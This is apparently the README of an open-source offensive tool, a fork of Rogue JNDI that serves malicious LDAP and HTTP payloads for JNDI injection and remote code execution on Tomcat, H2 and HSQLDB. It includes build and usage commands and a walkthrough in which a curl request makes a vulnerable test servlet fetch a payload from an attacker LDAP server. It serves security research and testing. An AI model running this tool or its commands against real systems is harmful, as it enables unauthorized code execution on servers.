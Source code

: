 # ROGUE JNDI NG
<img src="resources/logo.webp" alt="A bug sitting on top of a Stormtrooper helmet" height="640" width="640" style="border-radius: 14%; overflow: hidden;">


A modern fork of [Rogue JNDI](https://github.com/artsploit/rogue-jndi), which is "a malicious LDAP server for JNDI injection attacks".

## Description
Rogue JNDI is a great tool in the realm of JNDI exploitation. Our fork adds many features in order to keep it relevant for modern Java environments.

You can read about the full extent of our improvements in our [blog post](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/), but here's a summary:
+ Support for Tomcat version >=10
+ Support for Java version >= 15
+ Users can provide whole script files instead of single OS commands
+ Endpoint for serving generic deserialization payloads
+ New endpoint for exploiting H2 
+ New endpoint for exploiting HSQLDB
+ The usage of [Testcontainers](https://github.com/testcontainers/testcontainers-java) for integration tests (also useful for manual testing, e.g. custom scripting payloads)

> [!NOTE]
> For a general overview, please refer to the original [README](https://github.com/artsploit/rogue-jndi/blob/master/README.md)

## Building
The project uses Maven and can be build with something like:
```shell
mvn clean package
```
This creates a `/target` folder where the `RogueJNDI-X.X.X.jar` file resides. 

## Usage
After building, you can run the following command to see all the options:
```
$ java -jar target/RogueJndi-1.1.jar -h
        __________ ________    ________ ____ ______________      ____._______  ________  .___   _______    ________ 
        \______   \\_____  \  /  _____/|    |   \_   _____/     |    |\      \ \______ \ |   |  \      \  /  _____/ 
         |       _/ /   |   \/   \  ___|    |   /|    __)_      |    |/   |   \ |    |  \|   |  /   |   \/   \  ___ 
         |    |   \/    |    \    \_\  \    |  / |        \ /\__|    /    |    \|    `   \   | /    |    \    \_\  \
         |____|_  /\_______  /\______  /______/ /_______  / \________\____|__  /_______  /___| \____|__  /\______  /
                \/         \/        \/                 \/                   \/        \/              \/        \/


Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command          Command to execute on the target server (default: 
                           touch /usr/local/tomcat/temp/pwn.txt)
    -n, --hostname         Local HTTP server hostname (required for remote 
                           classloading and websphere payloads) (default: 
                           127.0.0.1) 
    -l, --ldapPort         Ldap bind port (default: 1389)
    -p, --httpPort         Http bind port (default: 8000)
    --wsdl                 [websphere1 payload option] WSDL file with XXE 
                           payload (default: /list.wsdl)
    --localjar             [websphere2 payload option] Local jar file to load 
                           (this file should be located on the remote server) 
                           (default: 
                           ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2                   [H2 database init script file (default: /h2)
    --js-payload-path      [Tomcat Nashorn payload option] Path to a .js file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --jshell-payload-path  [Tomcat JShell payload option] Path to a .java file 
                           containing the payload served by the Tomcat 
                           controllers; overwrites the -c option (default: 
                           <empty string>)
    --groovy-payload-path  [Groovy payload option] Path to a .groovy file 
                           containing the payload served by the Groovy 
                           controller, overwrites the -c option (default: 
                           <empty string>)
    --generic-payload-path [Generic controller option] Path to a file 
                           containing a serialized object served by the 
                           Generic controller, overwrites the -c option 
                           (default: <empty string>)
    --jdbc-url             [HSQLDB controller option] JDBC URL pointing to an 
                           HSQL database (default: <empty string>)
    -h, --help             Show this help
```

## Example usage with custom JShell script
First, start the test container:
```shell
docker run -it -p 8080:8080 ghcr.io/mogwailabs/jndi-outcast/tomcat-10-jshell:latest
```

After cloning and building the project, start the server:
```shell
java -jar target/RogueJndi-1.1.jar --jshell-payload-path "/path/to/cloned/repo/rogue-jndi-ng/src/main/resources/payload.java"
```

Now you only need to make a request to the vulnerable servlet inside the container:

```shell
curl "http://localhost:8080/tomcat-10-jshell-1.0-SNAPSHOT/lookup?resource=ldap://host.docker.internal:1389/o=tomcat10-jshell"
```

## Demo
This demo uses our example JShell payload (`/src/main/resources/payload.java`):

https://github.com/user-attachments/assets/ca45c2e8-7aec-4530-bb47-db45306d6938


## Resources and Acknowledgements
+ Michael Stepankin for creating the original Rogue JNDI
+ His article about JNDI exploitation:
  https://www.veracode.com/blog/research/exploiting-jndi-injections-java
+ BlackHat talk of Alvaro Muñoz and Oleksandr Mirosh:
  https://www.youtube.com/watch?v=Y8a5nB-vy78
+ Their BlackHat paper:
  https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
+ Article that includes a rough timeline of JDNI vulnerabilities by Moritz Bechler:
  https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection
+ Our previous article about Java 17 deserialization:
  https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl
